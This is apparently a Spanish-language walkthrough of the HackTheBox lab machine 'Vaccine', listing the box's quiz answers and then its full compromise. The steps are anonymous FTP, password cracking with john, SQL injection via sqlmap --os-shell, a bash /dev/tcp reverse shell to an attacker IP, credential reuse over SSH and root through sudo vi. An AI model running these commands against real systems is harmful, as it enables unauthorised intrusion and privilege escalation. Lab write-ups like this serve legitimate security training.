 1)Además de SSH y HTTP, ¿qué otro servicio está alojado en esta caja?
	ftp

2)Este servicio puede configurarse para permitir el inicio de sesión con cualquier contraseña para un nombre de usuario específico. ¿Cuál es ese nombre de usuario?
	anonymous

3)¿Cuál es el nombre del archivo descargado a través de este servicio?
	backup.zip

4)¿Qué script viene con el conjunto de herramientas John The Ripper y genera un hash a partir de un archivo zip protegido por contraseña en un formato que permite intentos de crackeo?
	zip2john

5)¿Cuál es la contraseña del usuario administrador del sitio web?
	qwerty789

6)¿Qué opción se puede pasar a sqlmap para intentar obtener la ejecución de comandos a través de la inyección sql?
	--os-shell

7)¿Qué programa puede ejecutar el usuario postgres como root usando sudo?
	vi

-----
# [[Reconocimiento de OS(Sistema operativo) y puertos abiertos con NMAP]]

```shell
ping -c 1 10.129.163.23
nmap -p- --open --min-rate 5000 -vvv -sS -n -Pn 10.129.163.23 -oG allPorts
extractPorts allPorts
nmap -sCV -p21,22,80 10.129.163.23 -oN target
```

![[Vaccine4.png]]

![[Vaccine1.png]]

![[Vaccine2.png]]

![[Vaccine3.png]]
*TTL:* Linux
*Puertos:*
`21`FTP | Vulnerabilidad con usuario anonymous
`22`SSH
`80`Apache/HTTP

--------
# [[Enumeracion con pequeño script de NMAP y Whatweb-wappalyzer]]

![[Vaccine5.png]]
No da ninguna informacion relevante

----------------
# Pagina web

![[Vaccine11.png]]

----
# Ingreso a [[ftp]] con usuario anonymous

`ftp 10.129.163.23 -p 21`
Entramos al servicio de ftp y descargamos el unico archivo con `get` que se llama backup.zip
![[Vaccine6.png]]

-------
# Sacamos el hash del archivo zip con [[zip2john]] y crackeamos contraseña con [[john]]

Intentamos descomprimir el archivo [[unzip]] `unzip backup.zip`
![[Vaccine7.png]]
Tiene contraseña asi que no lo podemos descomprimir. Usamos [[zip2john]] para sacarle el hash al archivo y luego con [[john]] crackeamos la contraseña

```shell
zip2john backup.zip > hash
john -w=/usr/share/wordlists/rockyou.txt hash
```

![[Vaccine8.png]]
 Nos da que la contraseña del backup.zip es ``741852963``
 
Ahora descomprimimos y buscamos en los archivos que nos da si tiene algun tipo de contraseña para logearnos al panel de la web
Con [[unzip]] ``unzip backup.zip`` descomprimimos y con [[cat]][[grep]] `cat index.php | grep -i password` buscamos en los archivos si tenia contraseñas
![[Vaccine9.png]]
Nos dice que el usuario es admin y la contraseña esta en md5 2cb42f8734ea607eefed3b70af13bbd3

#### Crackeamos la contraseña que esta en md5 con [[john]]
``john -w=/usr/share/wordlists/rockyou.txt --format=raw-md5 md5 ``            | IMPORTANTE USAR el parametro de --format por que si no no crackea la contraseña
![[Vaccine10.png]]
Contraseña: ``qwerty789``
Ponemos los datos de logeo y ya estamos adentro

-------
# SQLI con [[sqlmap NO USAR]] y mandamos una [[Reverse shell]]

Al poner una ' en la parte de search nos aparece este error

![[Vaccine12.png]]
Por esto que dice `ilike` sabemos que es [[postgresql]] ya que es un error caracteristico de esta base de datos
Pero si probamos con otra inyeccion por ejemplo ``' or 1=1-- -``  ``o ' or 1=2-- -`` no nos aparece nada
##### Esto es lo que pudimos sacar manualmente, a partir de aca usamos sqlmap que la verdad no lo queria usar, pero no encontre como mandar una revershell a traves de una sqli para hacer manual el proceso, asi que seguimos los pasos del writeup


```
ACLARACION IMPORTANTE: En la parte de cookie, poner el que tenga cada uno, desde la pagina logeado como administrador apretar CTRL + SHIFT + I y ver las cookies
sqlmap -u 'http://10.129.163.241/dashboard.php?search=any+query' --cookie="PHPSESSID=rmqiliocl577tgkamdu19smmbe" -v 3        / Primero usar este comando que va a hacer el analisis
sqlmap -u 'http://10.129.163.241/dashboard.php?search=any+query' --cookie="PHPSESSID=rmqiliocl577tgkamdu19smmbe" -v 3 --os-shell           /Agregando el parametro de os shell, nos va a dejar ejecutar comandos
bash -c 'bash -i >& /dev/tcp/10.10.16.17/443 0>&1'                 / Este es el comando que vamos a poner para usar la revershell
```
Recordar estar en escucha con [[nc -nlvp 443]] para la [[Reverse shell]]
El cookie seria el value de PHPSESSID


![[Vaccine14.png]]

![[Vaccine13.png]]

-------
# Conseguimos credenciales para conectarnos por [[ssh]]

##### Algo a tener en cuenta es que es muy inestable la maquina, todo el tiempo se me iba la conexion y tenia que volver a mandar la [[Reverse shell]], por que no hice [[Tratamiento de la TTY]] ya que cada 30-60 segundos se me iba la conexion

Desde la carpeta /var/www/html vamos a usar el comando `grep -riE "password|.*pasword|password.*"` para buscar posibles contraseñas

![[Vaccine16.png]]
*Resultado*
dashboard.php:	 $conn = pg_connect("host=localhost port=5432 dbname=carsdb user=postgres password=P@s5w0rd!");
Probamos las contraseñas que usa para la base de datos postre en ssh y pudimos entrar, asi que sabemos que repite las credenciales que usa

--------
# Nos conectamos por [[ssh]]

``ssh postgres@10.129.163.241`` y ponemos de contraseña `P@s5w0rd!`
![[Vaccine17.png]]

-----
# [[Tratamiento de la TTY]]

-----

# Escalada de privilegios con [[Abuso de Sudo]]

```shell
sudo -l
```

![[Vaccine18.png]]
Vemos que todos podemos ejecutar el binario /bin/vi /etc/postgresql/11/main/pg_hba.conf

Vemos que vulnerabilidad hay en la pagina de [GTFOBINS](https://gtfobins.github.io/gtfobins/vi/#sudo)

![[Vaccine22.png]]

Asi que abrimos con ``sudo /bin/vi /etc/postgresql/11/main/pg_hba.conf`` el binario para abrirlo como root. Para posteriormente salir del vi ejecutando una bash

![[Vaccine19.png]]

Desde el vi apretamos `:` en el teclado y vamos a poner estos dos comandos
```
:set shell=/bin/sh
:shell
```
![[Vaccine20.png]]

Y listo ya tenemos la bash como root, ahora solo queda ver las flags


![[Vaccine21.png]]


-------
# Creditos
Writeup Oficial HackTheBox
Writeup de [wetofu](https://wetofu.github.io/ctf/writeup/htb/htb-vaccine/)
